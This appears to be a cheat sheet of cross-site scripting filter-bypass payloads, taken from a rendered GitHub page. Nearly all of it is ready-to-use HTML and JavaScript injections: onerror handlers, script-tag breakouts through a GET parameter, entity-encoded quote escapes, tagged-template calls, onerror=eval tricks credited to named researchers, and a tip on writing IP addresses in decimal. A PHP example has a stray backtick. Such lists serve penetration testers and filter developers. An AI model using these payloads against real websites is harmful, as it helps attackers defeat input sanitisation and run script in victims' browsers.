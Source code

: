 ### Bypass with incomplete html tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

### Bypass quotes for string

```javascript
String.fromCharCode(88, 83, 83);
```

### Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

### Bypass quotes in mousedown event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">
  Link
</a>
```

### Bypass dot filter

```javascript
<script>window['alert'](document['domain'])</script>
```

Convert IP address into decimal format: IE. `http://192.168.1.1` ==
`http://3232235777` http://www.geektools.com/cgi-bin/ipconv.cgi

### Bypass parenthesis for string

```javascript
alert`1`;
setTimeout`alert\u0028document.domain\u0029`;
```

### Bypass parenthesis and semi colon

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```
